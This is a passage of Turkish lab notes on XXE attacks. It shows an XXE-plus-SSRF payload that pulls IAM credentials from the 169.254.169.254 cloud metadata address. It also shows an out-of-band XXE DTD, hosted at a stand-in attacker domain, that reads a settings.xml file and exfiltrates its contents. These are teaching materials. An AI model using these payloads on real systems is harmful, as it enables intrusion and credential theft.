

* Gördüğümüz gibi bir kaç tane daha veriyi de ekleyince verilere ulaşabildik. Verdiği veriler sonrasındaki kodumuzun son hali; **<!DOCTYPE person [<!ENTITY writer SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>** şekline büründü. Dikkat edersek sanki bilgisayarda bir dosya arıyormuşuz gibi ''**/**'' koyup çeşitli dosya ismi koyarak admin dosyasına kadar geldik ve oradan verileri görür hale geldik. 

* Alıştırma böylelikle tamamlanmış oldu.

* Bi önceki alıştırmadan bunun tek farkı bize verilen **http://169.254.169.254/** adresi üzerinden xxe yapmamız oldu. Tabii yaptığımız bu saldırıyı **SSRF zaafiyetini** kullanarak yapmış olduk. Çünkü burada http tarafında yetkimiz dışında veri sızdırdık.

### SSRF (Server-Side Request Forgery)

Sunucu Taraflı Sorgu Sahteciliği olarak düşünebiliriz. Yetki dışı http sorgularının sunucudan tarafından yapılabildiği bir zaafiyettir.

## XXE OOB(XXE Out of Band)(XXE Sınır dışı) 

Yukarıdaki alıştırmalar XXE yapabilmiştik. Bunu yapabilmemizin nedeni aslında sunucudan bize geri dönüş olmasından kaynaklıydı. Yani pars edilen xml sorgusuna yanlış değer verdiğimizde, bu değerin yanlış olduğuna ilişkin bir cevap dönüyordu sunucudan. Bize bu geridönüşü kullanarak veri çekebiliyoduk. Peki ya bu geridönüş olmazsa ne olacak? Örneğin çekmek istediğimiz verilerin içerisinde **'<'** işareti olursa sunucudan veriler bize dönmeyecektir. Çünkü parser için **'<'** işareti **tag(etiket)** demek. Yani parser o işareti bir işlev olarak kullanıyor ve bu yüzden çekmek istediğimiz veriyi **'error based'** olarak çekemiyor hale geliyoruz. Ancak bunu aşmanın bir yolu var;


```XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://hacker.com/test.dtd">
  %remote;
  %int;
  %trick;
]>
```

Yukarıdaki kod örneğinde **http://hacker.com/test.dtd** adresini **remote** keyword'ü üzerinden okuyabilmemizi sağlayacak bir kod örneği var.

http://hacker.com/test.dtd;
```XML
<!ENTITY % payl SYSTEM "file://c:/inetpub/wwwroot/apps/webmail//app_data//settings/settings.xml">
<!--Yukarıdaki kod settings.xml adresine gider, onu okur ve entity'nin içerisine koyar. Bu durumda içerisine koyduğu veriyi
de &payl; kodunu çağırarak okuyabiliriz.-->
<!ENTITY % int "<!ENTITY % trick SYSTEM "http://hacker.com/?p=%payl;'>">
<!--Görüldüğü üzere &payl; kodu yukarıdaki adresin içine saklanmış. Yani aslında bu sayede settings.xml dosyasını okuyabilir olacağız. -->
```


